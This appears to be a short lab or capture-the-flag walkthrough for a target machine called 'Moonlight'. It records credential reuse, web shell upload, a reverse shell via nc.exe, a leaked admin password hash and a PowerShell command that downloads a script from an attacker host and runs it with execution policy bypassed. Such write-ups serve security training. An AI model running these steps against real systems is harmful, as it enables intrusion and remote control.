

# Moonlight

__MACHINE IP__: 10.1.1.58

__DATE__: 17/05/2019

__START TIME__: 1:40

---

`NMAP`
-----


hmm...lot of different services running.

So we need to start 3 process:

1) dirsearch to enum the website on port `8080`

2) enum4linux to get some more info

3) nmap's `ftp-brute` script to see if FTP allows `anonymous` login


`dirsearch`
----------


No valid account found


- cewl se password list banao


In access.txt

```
Dear  Helper , Thank you for your motivation .

the credentials to pass the authentification page are the following collaborator:secret .

The password for the Administrative Access on the Content Management System is the same ,

Marco
```

- go to http://10.1.1.58:8080/content/ and use the `collaborator:secret` cred
- go to http://10.1.1.58:8080/content/admin login with `admin:secret`
- Found https://www.exploit-db.com/exploits/40008
- uploaded reverse shell for Linux got error
- Then upload webshell
    + https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php
    + ignore error


- Start the recon


- Got the password



```xml
<?xml version="1.0"?>
<item>
    <USR>admin</USR>
    <PWD>e5e9fa1ba31ecd1ae84f75caaa474f3a663f05f4</PWD>
    <EMAIL>admin@moonlight.net</EMAIL>
    <HTMLEDITOR>1</HTMLEDITOR>
    <TIMEZONE/>
    <LANG>en_US</LANG>
</item>
```

But we already knows that

- After some more looking around


- Found some api key


- `netstat -ano`


- uploaded `nc.exe`
- got rev


## Privilege escalation

```
powershell.exe
Invoke-WebRequest http://10.254.0.6:8000/winenum.ps1 -outfile enum.ps1
exit

powershell.exe -ExecutionPolicy Bypass -File .\enum.ps1
```

Enumerate
